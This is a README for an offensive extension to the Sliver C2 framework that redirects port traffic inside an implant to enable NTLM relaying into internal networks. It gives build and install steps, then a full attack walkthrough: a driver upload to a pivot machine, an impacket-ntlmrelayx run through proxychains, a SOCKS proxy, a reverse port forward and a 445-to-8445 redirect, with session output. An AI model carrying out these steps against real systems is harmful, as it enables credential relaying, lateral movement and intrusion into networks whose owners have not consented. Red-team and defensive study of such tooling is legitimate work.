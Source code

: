 # Sliver-PortBender

An **extension to Sliver C2**, that allows to **manage multiple redirection traffic rules, from port to port, inside the same implant**. 
It maybe useful for performing **NTLM relaying from Sliver C2 into an internal network** in a similar way to what is described here https://rastamouse.me/ntlm-relaying-via-cobalt-strike/ for Cobalt-Strike. I recommend the user to first read the article before in case doesn't have any experience with PortBender.
**The extension is a DLL wrapping the PortBender Reflective DLL** developed by praetorian-inc here: https://github.com/praetorian-inc/PortBender. Sliver-PortBender performs the same redirection task, 
performed by the original PortBender, but does everything **inside the same implant with no need to inject into other processes or drop binaries to disk**.

## How it works

The DLL manages multiple threads each one in charge of redirecting traffic from one port to another one. It keeps a map ID -> thread that allows to destroy/create/list the different
threads. For redirection task most of the code was taken from the original PortBender project and it was refactored in order to not crash the implant.
Even if the **backdoor** command appears as a possible argument, it is actually **not available**.

## How to build it

open the solution file using visual studio 2019, and build the x64 release (I didn't test the x86).

## How to load / install it

Until this is potentially included in the armory it can be built on a windows system and loaded manually in sliver.
Create a directory called sliver-extension and copy inside it SliverPortBender.dll, the binary previously compiled on windows with visual studio, and extension.json:
```
$ mkdir sliver-extension && cd sliver-extension
$ cp /path/to/extension.json .
$ cp /path/to/SliverPortBender.dll .
```

Install and load the extension in sliver-client:
```
> extension install /path/to/sliver-extension
> extension load /path/to/sliver-extension
```

Alternatively you can download the release and use again the `extension install` and `extension load` commands with the folder extracted from the zip in the release. Only x64 version is in the release.

## Usage

Be careful to use it only with **session** type implants. **beacons** in sliver have the issue of reloading everytime the DLL, instead of loading it only the first time it gets executed. I'll perform a PR that fix that behaviour soon.

By running `portbender` you can already get a help message. Here the functionalities:

- `portbender redirect <fakeDstPort> <redirectedPort>` . Redirects the traffic from `<fakeDstPort>` to `<redirectedPort>`
- `portbender list` . List the active redirection rules created with the `redirect command`
- `portbender remove <id>` . Stop and remove a redirection rule with a given `<id>`. The `<id>` is retrieved through the `portbender list`command.

### Example

Here how to use Sliver-Portbender in sliver in order to redirect traffic from port 445 to port 8445 and then relay incoming traffic with ntlmrelayx in the internal network.
Be careful It is first necessary to upload `WinDivert64.sys` in the pivot machine to the path `C:\Windows\System32\drivers`. Later it is necessary to change directory to `C:\Windows\System32\drivers`.

Starting ntlmrelayx:
```

┌──(kali㉿kali)-[~]
└─$ proxychains4 impacket-ntlmrelayx -smb2support -t smb://WIN-ICSQJ44N1F3.contoso.local --no-http-server
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Creating socks proxy, port forwarding rule and portbender rule in session:

```

[*] Active session RIPE_COUNCILOR (2aff286b-da8d-4636-8f8e-8512f67ab64e)

sliver (RIPE_COUNCILOR) > socks5 start -P 1080

[*] Started SOCKS5 127.0.0.1 1080
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol

sliver (RIPE_COUNCILOR) > cd C:\\Windows\\System32\\Drivers

[*] C:\Windows\System32\Drivers

sliver (RIPE_COUNCILOR) > ls WinDivert64.sys

C:\Windows\System32\Drivers (1 item, 37.0 KiB)
==============================================
-rw-rw-rw-  WinDivert64.sys  37.0 KiB  Sun Dec 11 21:20:20 +0100 2022


sliver (RIPE_COUNCILOR) > rportfwd add -b 0.0.0.0:8445 -r 192.168.161.50:445

[*] Reverse port forwarding 192.168.161.50:445 <- 0.0.0.0:8445

sliver (RIPE_COUNCILOR) > portbender redirect 445 8445

[*] Successfully executed portbender
[*] Got output:
Initializing manager...
Creating redirection with id 0...
Redirection created successfully


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
        id:     ORIGINAL_PORT -> REDIRECTED_PORT        MODE(0=redirect,1=backdoor)     PASSWORD
        0:      445 -> 8445     0


sliver (RIPE_COUNCILOR) > 
```

Generating some traffic towards port 445 on the pivot machine (ip=192.168.161.30) where the implant is running:
```
C:\Users\Administrator>dir \\192.168.161.30\c$
The user name or password is incorrect.

C:\Users\Administrator>
```

Notice ntlmrelayx captured and relayed some traffic towards another machine in the internal network:

![immagine](https://user-images.githubusercontent.com/74059030/208508027-c9e472d8-5b70-4722-a675-f07baf8cf768.png)

Removing the port redirection rule in the sliver implant:
```

sliver (RIPE_COUNCILOR) > portbender remove 0

[*] Successfully executed portbender
[*] Got output:
successfully removed redirection with Id 0


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
Nothing to show


sliver (RIPE_COUNCILOR) >

```

Notice now the previous command used to generate traffic executes successfully, confirming the PortBender rule was removed successfully:

![immagine](https://user-images.githubusercontent.com/74059030/208510154-ffb4c5b6-d9cb-4e0a-8de3-e6cea1a114e8.png)


## Credits

- https://github.com/BishopFox/sliver/wiki/Aliases-&-Extensions#extensions
- https://github.com/praetorian-inc/PortBender
- https://rastamouse.me/ntlm-relaying-via-cobalt-strike/
- https://github.com/trustedsec/SliverKeylogger

## Acknowledgements
Special thanks goes to [@rkervella](https://github.com/rkervella) [@moloch--](https://github.com/moloch--) and the other members of Bishop Fox for their job on Sliver, and to [@praetorian-inc](https://github.com/praetorian-inc) for the original PortBender project. I thank also [@freefirex](https://github.com/freefirex) for his work on Sliver Keylogger. In fact I was insipired by his work when creating the extension.
